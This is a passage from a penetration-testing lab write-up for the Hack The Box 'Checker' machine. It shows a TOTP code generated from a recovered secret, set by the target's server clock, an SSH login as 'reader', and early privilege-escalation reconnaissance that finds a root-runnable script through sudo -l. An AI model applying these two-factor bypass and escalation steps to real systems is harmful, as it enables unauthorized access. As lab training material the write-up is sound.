 That seems we need to use the timezone of target machine
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Checker/php_filter_chains_oracle_exploit]
└─$ oathtool -b --totp DVDBRAODLCWF7I2ONA4K5LQLUE --now="$(date -d "$(curl -v http://checker.htb -s 2>&1 | grep Date | cut -d' ' -f 3- | tr -d '\r')" "+%Y-%m-%d %H:%M:%S")"
769152


┌──(wither㉿localhost)-[~/Templates/htb-labs/Checker/php_filter_chains_oracle_exploit]
└─$ ssh reader@10.10.11.56
(reader@10.10.11.56) Password: 
(reader@10.10.11.56) Verification code: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Last login: Mon Jul 28 04:39:06 2025 from 10.10.14.6
reader@checker:~$ 

```

That totally correct for us.

# Privilege Escalation
Firstly I would like to check `sudo -l`
```
reader@checker:~$ sudo -l
Matching Defaults entries for reader on checker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User reader may run the following commands on checker:
    (ALL) NOPASSWD: /opt/hash-checker/check-leak.sh *

```

We can read the source code of this script
```
reader@checker:~$ cat /opt/hash-checker/check-leak.sh
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"

reader@checker:~$ ls -al /opt/hash-checker/
total 68
drwxr-xr-x 2 root root  4096 Jan 30 17:09 .
drwxr-xr-x 5 root root  4096 Jan 30 17:04 ..
-r-------- 1 root root   118 Jan 30 17:07 .env
-rwxr--r-- 1 root root   141 Jan 30 17:04 check-leak.sh
-rwxr--r-- 1 root root 42376 Jan 30 17:02 check_leak
-rwx------ 1 root root   750 Jan 30 17:07 cleanup.sh
-rw-r--r-- 1 root root  1464 Jan 30 17:09 leaked_hashes.txt

```